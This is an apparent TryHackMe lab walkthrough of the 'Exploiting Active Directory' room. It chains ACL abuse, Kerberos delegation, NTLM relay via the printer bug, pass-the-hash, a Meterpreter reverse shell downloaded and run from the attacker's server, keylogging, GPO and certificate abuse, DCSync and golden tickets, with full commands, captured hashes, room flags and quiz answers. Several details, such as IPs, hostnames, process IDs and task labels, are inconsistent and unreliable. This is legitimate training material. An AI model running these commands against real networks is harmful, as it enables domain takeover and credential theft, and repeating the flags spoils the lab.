# TryHackMe — Exploiting Active Directory | Walkthrough

> **Room:** [Exploiting Active Directory](https://tryhackme.com/room/exploitingad)  
> **Difficulty:** Medium  
> **Author:** vodanhtieutot  
> **Platform:** TryHackMe  

---

## Table of Contents

1. [Overview](#1-overview)
2. [Task 2 — Permission Delegation (ACL-based Attacks)](#2-task-2--permission-delegation-acl-based-attacks)
3. [Task 3 — Kerberos Delegation (Constrained Delegation)](#3-task-3--kerberos-delegation-constrained-delegation)
4. [Task 4 — Machine Accounts & Authentication Relay](#4-task-4--machine-accounts--authentication-relay)
5. [Task 5 — Targeting AD Users (Credential Hunting & Keylogging)](#5-task-5--targeting-ad-users-credential-hunting--keylogging)
6. [Task 6 — Group Policy Objects (GPO Abuse)](#6-task-6--group-policy-objects-gpo-abuse)
7. [Task 7 — Silver Tickets (AD Certificate Services)](#7-task-7--silver-tickets-ad-certificate-services)
8. [Task 8 — Golden Tickets](#8-task-8--golden-tickets)
9. [Tools Used](#10-tools-used)

---

## 1. Overview

After completing the **Enumeration** phase to understand the AD structure and environment, we move into the **Exploitation** phase. This phase leverages misconfigurations within Active Directory to perform a combination of **lateral movement** and **privilege escalation** until we reach a position suitable for goal execution.

This room covers the following techniques:

| Technique | Description |
|---|---|
| ACL / Permission Delegation | Abusing misconfigured ACEs (ForceChangePassword, GenericWrite) |
| Kerberos Constrained Delegation | Impersonating privileged users via S4U2Proxy |
| Authentication Relay (Printer Bug) | Forcing NTLM auth via MS-RPRN and relaying with ntlmrelayx |
| Credential Hunting + Keylogging | Finding `.kdbx` files and capturing keystrokes via Meterpreter |
| GPO Abuse | Abusing GenericWrite on a GPO to escalate on THMSERVER2 |
| Silver Ticket (AD CS) | Forging a certificate via ADCS, then requesting a TGT with Rubeus |
| Golden Ticket | DCSync to get the `krbtgt` hash, then forge a persistent domain-wide ticket |

**Lab Environment:**

| Host | Role | Address |
|---|---|---|
| Kali (attacker) | Attack machine | 10.150.72.9 (VPN) |
| THMWRK1 | Windows Workstation | 10.200.72.248|
| THMSERVER1 | Windows Server | 10.200.72.201 |
| THMSERVER2 | Windows Server | 10.200.72.202 |
| THMDC | Domain Controller | 10.200.72.101 |
| Domain | — | `za.tryhackme.loc` |

---

## 2. Task 2 — Permission Delegation (ACL-based Attacks)

### 2.1 Getting Initial Credentials

Navigate to the credential provider page of the lab to obtain an initial AD account:



> Credentials obtained: `jason.jackson : Racer2018`

SSH into **THMWRK1** using these credentials:

```bash
ssh za\\jason.jackson@thmwrk1.za.tryhackme.loc
```



### 2.2 Collecting AD Data with SharpHound

On THMWRK1, run SharpHound to collect full AD information. Note that SharpHound tries to write a cache file to the current directory — if you get an `Access is denied` error, simply change to a directory you have write access to (e.g. `C:\Users\jason.jackson\`). The output is saved as a `.zip` file under `C:\Tools\`:

```cmd
C:\Tools\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.loc --ExcludeDCs
```



### 2.3 Starting BloodHound and Ingesting Data

On Kali, start the neo4j database first:

```bash
sudo neo4j console
```



Then open BloodHound at `http://127.0.0.1:8080`. To transfer the SharpHound `.zip` from THMWRK1 to Kali, use `scp`:

```bash
scp "za.tryhackme.loc\jason.jackson@thmwrk1.za.tryhackme.loc:C:/Tools/20260317160533_BloodHound.zip" .
```



In BloodHound, click the **Upload Data** button and select the downloaded `.zip` file:



### 2.4 Analysing the Attack Path in BloodHound

Search for `jason.jackson` in BloodHound. We can see this user is a member of `DOMAIN USERS`:



Analyse the outbound edges of the `DOMAIN USERS` group. BloodHound reveals that `DOMAIN USERS` has **GenericWrite** over the **IT SUPPORT** group:



The **IT SUPPORT** group in turn has **AdminTo** over a computer in the domain:



Viewing the full attack path — `DOMAIN USERS` → `IT SUPPORT` → `TIER 2 ADMINS` via `ForceChangePassword`:



**Attack path summary:**
- `DOMAIN USERS` has `GenericWrite` over `IT Support` → we can add ourselves to the group
- `IT Support` has `ForceChangePassword` over `TIER 2 ADMINS` accounts → we can reset their passwords
- By escalating to a T2 Admin account, we gain access to machines where IT Support has admin rights

### 2.5 Adding jason.jackson to IT Support

On THMWRK1, use PowerShell to add ourselves to the `IT Support` group (exploiting `GenericWrite`):

```powershell
Add-ADGroupMember -Identity "IT Support" -Members "jason.jackson"
```



> **Note:** After adding a member to a group, you need to wait approximately **15 minutes** for the membership to propagate across the domain. In the meantime, you can verify `jason.jackson`'s details:

```powershell
Get-ADUser -Identity "jason.jackson"
```



You can also look up the target T2 Admin account (`t2_irene.nash`) to confirm it exists:



### 2.6 ForceChangePassword on a T2 Admin Account

After 15 minutes, reset the password of `t2_irene.nash` (a member of `TIER 2 ADMINS`). The first attempt may fail because the current session has not yet picked up the new group membership — you need to log out and back in first:



After re-logging in with a fresh session (which now has IT Support membership), the password reset succeeds:

```powershell
$Password = ConvertTo-SecureString "Thohaisaotro12004" -AsPlainText -Force
Set-ADAccountPassword -Identity "t2_irene.nash" -Reset -NewPassword $Password
```



### 2.7 Logging in as T2 Admin and Getting Flag 1

SSH into THMWRK1 as `t2_irene.nash` with the newly set password. Navigate to the Administrator's Desktop to find the flag:

```cmd
cd C:\Users\Administrator\Desktop
type flag1.txt
```



> 🚩 **Flag 1:** `THM{Permission.Delegation.FTW!}`

### Task 2 — Questions & Answers

| Question | Answer |
|---|---|
| Which ACE would allow you to update any non-protected parameter of a target object? | `GenericWrite` |
| What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)? | `THM{Permission.Delegation.FTW!}` |

---

## 3. Task 3 — Kerberos Delegation (Constrained Delegation)

### 3.1 Finding Accounts with Constrained Delegation

Use PowerView on THMWRK1 to find service accounts with the `TRUSTED_TO_AUTH_FOR_DELEGATION` flag:

```powershell
Import-Module C:\Tools\PowerView.ps1
Get-NetUser -TrustedToAuth
```



The results show the `svcIIS` account has:
- `msds-allowedtodelegateto`: `WSMAN/THMSERVER1`, `http/THMSERVER1`, `http/THMSERVER1.za.tryhackme.loc`
- `useraccountcontrol`: `TRUSTED_TO_AUTH_FOR_DELEGATION`
- Plaintext password stored in `_SC_thmwinauth`: **`Password1@`**

### 3.2 Dumping Secrets from THMWRK1 with Mimikatz

To confirm the credentials of `svcIIS`, dump LSA secrets on THMWRK1 using Mimikatz. First, elevate to SYSTEM to impersonate necessary tokens:

```mimikatz
privilege::debug
token::elevate
```



Then dump the secrets:

```mimikatz
lsadump::secrets
```



> Password for `svcIIS`: **`Password1@`** (confirmed via both PowerView and Mimikatz)

### 3.3 Requesting a TGT for svcIIS with kekeo

Use **kekeo** to request a TGT for the `svcIIS` account:

```cmd
C:\Tools\kekeo\x64\kekeo.exe
```

```kekeo
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
```



The ticket is saved as a `.kirbi` file in the current directory.

### 3.4 Requesting a TGS to Impersonate a Privileged User (S4U2Proxy)

Still in kekeo, use the TGT for `svcIIS` to request a TGS (Service Ticket) for `http/THMSERVER1` on behalf of `t1_trevor.jones`:

```kekeo
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
```

kekeo generates `.kirbi` files for each delegated service.

### 3.5 Injecting the TGS with Mimikatz (Pass-the-Ticket)

Launch Mimikatz and inject the TGS into the current session:

```mimikatz
privilege::debug
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```



> Note: The `wsman` TGS file may show an error, but the `http` TGS injects successfully — that is sufficient.

### 3.6 Connecting to THMSERVER1 and Getting Flag 2

With the ticket injected, create a PSSession to THMSERVER1:

```powershell
New-PSSession -ComputerName thmserver1.za.tryhackme.loc
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```



Navigate to the Administrator's Desktop to grab the flag:

```powershell
cd C:\Users\Administrator\desktop
type flag2.txt
```



> 🚩 **Flag 2:** `THM{Constrained.Delegation.Can.Be.Very.Bad}`

### Task 3 — Questions & Answers

| Question | Answer |
|---|---|
| Which Kerberos Delegation type allows for delegation of all services? | `Unconstrained delegation` |
| Which Kerberos Delegation type allows the service to specify who is allowed to delegate to it? | `Resource-based constrained delegation` |
| Which Constrained Delegation service allows access to the file system of the system via delegation? | `CIFS` |
| What is the value of the flag stored in the Desktop directory of the Administrator user on THMSERVER1 (flag2.txt)? | `THM{Constrained.Delegation.Can.Be.Very.Bad}` |

---

## 4. Task 4 — Machine Accounts & Authentication Relay

### 4.1 Finding Machine Accounts with AdminTo Relationships

In BloodHound, switch to the **CYPHER** tab and run the following custom query to find computers that have admin rights over other computers:

```cypher
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer)
RETURN p
```



Result: `THMSERVER2` (via the **SERVER MANAGEMENT** group) has `AdminTo` over `THMSERVER1`.

### 4.2 Verifying the Print Spooler Service on THMSERVER2

To exploit the **Printer Bug**, we need to confirm that the Print Spooler service is running on THMSERVER2. From THMWRK1, query WMI over the network:

```powershell
GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
```



The service is active. Next, check SMB signing on both servers:

```bash
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
```



> **SMB signing: enabled but not required** — This is a required condition for the NTLM relay attack to succeed.

### 4.3 Starting impacket-ntlmrelayx on Kali

On the Kali machine, start the NTLM relay server targeting THMSERVER1:

```bash
impacket-ntlmrelayx -t smb://10.200.72.201 -smb2support
```



### 4.4 Triggering the Printer Bug to Force Authentication

From THMWRK1, use `SpoolSample.exe` to force THMSERVER2 to authenticate back to our Kali machine (using the tun0 IP):

```cmd
C:\tools\SpoolSample.exe THMSERVER2.za.tryhackme.loc "10.152.72.9"
```



Immediately on the Kali terminal, `ntlmrelayx` captures the NTLM authentication from `THMSERVER2$`, relays it to THMSERVER1, and dumps the full SAM database:

```
[*] Authenticating against smb://10.200.72.201 as ZA/THMSERVER2$ SUCCEED
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
ServerAdmin:500:aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c:::
...
```

> **NT Hash of ServerAdmin (local admin on THMSERVER1):** `3279a0c6dfe15dc3fb6e9c26dd9b066c`

### 4.5 Pass-the-Hash into THMSERVER1 and Getting Flag 3

Use the dumped hash to log into THMSERVER1 with `impacket-psexec`:

```bash
impacket-psexec -hashes :3279a0c6dfe15dc3fb6e9c26dd9b066c ServerAdmin@10.200.72.201
```



Navigate to the Administrator Desktop and read the flag:

```cmd
cd C:\Users\Administrator.ZA\Desktop
type flag3.txt
```



> 🚩 **Flag 3:** `THM{Printing.Some.Shellz}`

### Task 4 — Questions & Answers

| Question | Answer |
|---|---|
| How often (in days) are the passwords of Windows machine accounts rotated by default? | `30` |
| What should not be enforced if we want to relay an SMB authentication attempt? | `SMB signing` |
| What is the value of the flag stored in the Desktop directory of the Administrator.ZA user on THMSERVER1 (flag3.txt)? | `THM{Printing.Some.Shellz}` |

---

## 5. Task 5 — Targeting AD Users (Credential Hunting & Keylogging)

### 5.1 Hunting for Credential Files on THMSERVER1

From the PSSession established in Task 3 (running as `t1_trevor.jones`), browse user directories on THMSERVER1:

```powershell
cd C:\Users\trevor.local
cd Documents
dir
```



We find **`PasswordDatabase.kdbx`** — a KeePass credential database protected by a master password. Rather than brute-forcing it, we deploy a keylogger to capture the password when the user opens the database.

### 5.2 Generating a Meterpreter Payload

On Kali, generate a reverse shell payload in PowerShell format:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT=5555 -f psh -o shell2.ps1
```



Start an HTTP server to serve the payload:

```bash
python3 -m http.server 8000
```



### 5.3 Setting Up the Metasploit Listener

In Metasploit, configure `multi/handler`:

```bash
msfconsole -q
search /multi/handler
use 4
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.150.72.9
set LPORT 5555
run
```



### 5.4 Executing the Payload from THMSERVER1

From the PSSession on THMSERVER1, download and execute the payload:

```powershell
iwr "http://10.150.72.9:8000/shell2.ps1" -OutFile "shell2.ps1"
.\shell2.ps1
```



A Meterpreter session opens on Kali:



Verify the current user context:

```meterpreter
getuid
# Server username: ZA\t1_trevor.jones
```



### 5.5 Migrating to a User Process and Starting the Keylogger

List running processes with `ps` to find a process belonging to `t1_trevor.jones` running in an interactive Session 1:



Migrate into the `explorer.exe` process (PID 3750) to keylog within the user's desktop context, then start the keylogger:

```meterpreter
migrate 3772
keyscan_start
```

Wait for the user to interact with KeePass and type their master password. Then dump the captured keystrokes:

```meterpreter
keyscan_dump
```



> **KeePass master password:** `Imreallysurenoonewillguessmypassword`

### 5.6 Downloading and Opening the KeePass Database

Download the `.kdbx` file to Kali:

```meterpreter
download PasswordDatabase.kdbx
```



Open the database with KeePass or `keepassxc` on Kali using the captured master password. Inside we find:

**A "Flag" entry:**



> 🚩 **Flag 4:** `THM{AD.Users.Can.Give.Up.Good.Secrets}`

**Credentials for `svcServMan`:**



> **`svcServMan` : `Sup3rStr0ngPass!@`**

### Task 5 — Questions & Answers

| Question | Answer |
|---|---|
| What application is used to open the kdbx credential database? | `KeePass` |
| What meterpreter command do we use to move from SYSTEM to user context? | `migrate` |
| What is the password of the credential database? | `Imreallysurenoonewillguessmypassword` |
| What is the value of the flag stored in the credential database? | `THM{AD.Users.Can.Give.Up.Good.Secrets}` |

---

## 6. Task 6 — Group Policy Objects (GPO Abuse)

### 6.1 Analysing svcServMan's Permissions in BloodHound

Search for `SVCSERVMAN` in BloodHound. The account has:
- **GenericWrite** over the GPO `MANAGEMENT SERVER PUSHES`
- **MemberOf** `DOMAIN USERS`



Expand the GPO node to inspect its scope:



The GPO has a `GPLink` to the `Management Servers` OU, which `Contains` our target machine — **THMSERVER1**.

> **Attack vector:** Because `svcServMan` has `GenericWrite` over this GPO, we can modify it to add a controlled user into the local Administrators group of affected machines.

### 6.2 Logging in as svcServMan via RDP

Use `xfreerdp` to get an RDP session on THMSERVER2, then spawn a new cmd process as `svcServMan`:

```bash
xfreerdp /u:jason.jackson /p:Racer2018 /v:thmwrk1.za.tryhackme.loc
```



From the RDP session, open `cmd.exe` as `svcServMan` using `runas`:

```cmd
runas /netonly /user:za.tryhackme.loc\svcServMan cmd.exe
```



### 6.3 Editing the GPO via Group Policy Management Console

In the cmd window running as `svcServMan`, open `gpmc.msc`. Navigate to:

```
Forest: tryhackme.loc → Domains → za.tryhackme.loc → Servers → Management Servers → Management Server Pushes
```



View the **Settings** tab to inspect the current GPO configuration:



The GPO applies a **Restricted Groups** policy that makes `IT Support` a member of `BUILTIN\Administrators` on target machines. Right-click the GPO → **Edit** → navigate to `Computer Configuration → Policies → Windows Settings → Security Settings → Restricted Groups` → add `frederick.banks` as a direct member of Administrators.

After the GPO is applied to THMSERVER2, log in with `frederick.banks` and read the flag:

```cmd
cd C:\Users\Administrator\Desktop
type flag4.txt
```



> 🚩 **Flag 5:** `THM{Exploiting.GPOs.For.Fun.And.Profit}`

### Task 6 — Questions & Answers

| Question | Answer |
|---|---|
| What object allows users to configure Windows policies? | `Group Policy Objects` |
| What AD feature allows us to configure GPOs for the entire AD structure? | `Group Policy Management` |
| What is the name of the GPO that our compromised AD account owns? | `Management Server Pushes` |
| What is the value of the flag stored on THMSERVER2 in the Administrator's Desktop directory (flag4.txt)? | `THM{Exploiting.GPOs.For.Fun.And.Profit}` |

---

## 7. Task 7 — Silver Tickets (AD Certificate Services)

### 7.1 RDP into THMSERVER2 as frederick.banks

Connect to THMSERVER2 via `xfreerdp`:

```bash
xfreerdp /u:jason.jackson /p:Racer2018 /v:thmwrk2.za.tryhackme.loc
```



From the RDP session, open an Administrator PowerShell using `runas /netonly` as `svcServMan`.

### 7.2 Enumerating Certificate Templates

Use `certutil` to list all available certificate templates from the AD CS server:

```powershell
certutil -Template -v > templates.txt
```



The `templates.txt` file is saved in the user's home directory:



### 7.3 Requesting a Certificate via MMC

Open `mmc.exe`, add the **Certificates** snap-in, and select **Computer account**:





In the MMC, right-click **Personal → Certificates → All Tasks → Request New Certificate**. During enrollment, open the **Certificate Properties** and set a custom Subject:
- **Common Name:** `Hacked`
- **Alternative Name (Directory name):** `Administrator@za.tryhackme.com`



The certificate is issued by `za-THMDC-CA` and stored in the Personal certificate store:



### 7.4 Exporting the Certificate as a .pfx File

Right-click the certificate → **All Tasks → Export**. In the Export Wizard:
- Select **Yes, export the private key**
- Set a password: `password123`
- Format: `.pfx`





### 7.5 Using Rubeus to Request a TGT from the Certificate

On THMSERVER2 (Administrator PowerShell), use Rubeus to request a TGT using the exported `.pfx`:

```cmd
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:C:\Users\username\Desktop\mycert.pfx /password:password123 /outfile:pwnz.kirbi /domain:za.tryhackme.loc /dc:10.200.60.101
```

### 7.6 Passing the Ticket with Mimikatz and Accessing the DC

Use Mimikatz to inject the ticket and spawn a new shell:

```mimikatz
privilege::debug
kerberos::ptt pwnz.kirbi
misc::cmd
```

From the new cmd window (now holding Administrator's ticket), browse the DC file system:

```cmd
explorer.exe \\thmdc.za.tryhackme.loc\C$
```



We can now browse the entire file system of the Domain Controller:



> 🚩 **Flag 5 (flag5.txt on THMDC Administrator Desktop):** `THM{AD.Certs.Can.Get.You.DA}`

### Task 7 — Questions & Answers

| Question | Answer |
|---|---|
| What does the user create to ask the CA for a certificate? | `Certificate signing request` |
| What is the name of Microsoft's PKI implementation? | `Active Directory Certificate Services` |
| What is the value of the flag stored on THMDC in the Administrator's Desktop directory (flag5.txt)? | `THM{AD.Certs.Can.Get.You.DA}` |

---

## 8. Task 8 — Golden Tickets

### 8.1 DCSync to Extract the krbtgt Hash

From the Administrator cmd shell obtained in Task 7, run Mimikatz and perform a **DCSync** attack to extract the NTLM hash of the `krbtgt` account:

```mimikatz
lsadump::dcsync /user:za\krbtgt
```



Key values obtained:
- **Domain SID:** `S-1-5-21-3885271727-2693558621-2658995185`
- **krbtgt NTLM hash:** `16f9af38fca3ada405386b3b57366082`

### 8.2 Forging the Golden Ticket

Use Mimikatz to create a **Golden Ticket** — a forged TGT that is valid for any user in the domain. The `/sids` parameter includes the SID of the `Enterprise Admins` group at the forest root, enabling cross-domain privilege escalation:

```mimikatz
kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt
```

### 8.3 Accessing the Entire Domain

With the Golden Ticket injected into memory, we have access to any resource across the domain. Browse the C$ share of the root Domain Controller `THMROOTDC`:

```cmd
dir \\thmrootdc.tryhackme.loc\C$
```





> 🚩 **Flag 6 (flag6.txt on THMROOTDC Administrator Desktop):** `THM{Full.EA.Compromise}`

> ✅ **Golden Ticket successful** — We now have persistent, domain-wide access. This ticket remains valid even after domain admin password changes, making it an extremely powerful persistence mechanism.

### Task 8 — Questions & Answers

| Question | Answer |
|---|---|
| What domain trust relationship is by default configured between a parent and a child domain? | `Directional trust` |
| What is the name of the AD account used by the KDC to encrypt and sign TGTs? | `krbtgt` |
| What is the name of the TGT that grants access to resources outside of our current domain? | `Inter-Realm TGT` |
| What is the value of the flag stored on THMROOTDC in the Administrator's Desktop folder (flag6.txt)? | `THM{Full.EA.Compromise}` |

---

## 9. Tools Used

| Tool | Purpose |
|---|---|
| SharpHound / BloodHound | AD enumeration and attack path visualisation |
| PowerView | PowerShell-based AD enumeration |
| Mimikatz | Credential dumping, Pass-the-Ticket, DCSync, Golden/Silver Ticket |
| kekeo | TGT/TGS requests for Kerberos Delegation abuse |
| Rubeus | ADCS-based TGT request using certificate |
| impacket-ntlmrelayx | NTLM relay attack |
| impacket-psexec | Pass-the-Hash lateral movement |
| SpoolSample.exe | Exploiting the Printer Bug (MS-RPRN) |
| Metasploit / Meterpreter | Reverse shell and keylogging |
| KeePass / KeePassXC | Opening credential databases |
| certutil | Enumerating AD Certificate Services templates |
| xfreerdp | RDP client |
| nmap | SMB signing verification |

---

